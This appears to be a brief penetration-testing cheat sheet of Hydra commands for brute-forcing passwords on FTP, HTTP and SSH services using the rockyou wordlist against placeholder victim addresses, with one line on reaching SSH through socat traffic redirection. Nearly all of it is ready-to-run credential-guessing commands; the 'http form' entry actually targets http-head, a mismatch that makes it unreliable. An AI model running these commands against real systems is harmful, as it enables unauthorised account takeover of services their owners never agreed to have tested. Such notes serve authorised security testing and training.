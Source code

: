 -  Hydra by ftp

````shell
hydra -l user -P passwords.txt ftp://<target-ip>
````

- Hydra for http form:

```shell
hydra -l fox -P /usr/share/wordlists/rockyou.txt -u -s 80 IP_HOST http-head
```

- Brute force ssh:
	- Use it when you can perform a redirection of the traffic to the ssh port but you have modified the configuration from the inside with socat

```shell
hydra -l USER -P /usr/share/wordlists/rockyou.txt ssh://IP_VICTIM:PORT
```
